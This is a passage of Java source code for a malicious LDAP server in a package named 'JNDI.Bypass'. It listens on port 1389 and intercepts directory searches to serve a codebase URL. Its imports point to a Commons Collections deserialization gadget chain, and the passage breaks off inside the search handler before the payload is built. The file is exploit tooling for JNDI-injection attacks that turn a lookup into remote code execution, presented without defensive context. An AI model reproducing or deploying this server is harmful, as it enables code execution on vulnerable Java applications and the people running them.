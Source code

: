 ```
package JNDI.Bypass;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URL;
import java.util.HashMap;
import java.util.Map;

public class LDAPServer {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) throws Exception{
        String[] args=new String[]{"http://127.0.0.1/#test"};
        int port = 1389;

        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen", //$NON-NLS-1$
                InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

        config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
        ds.startListening();
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
```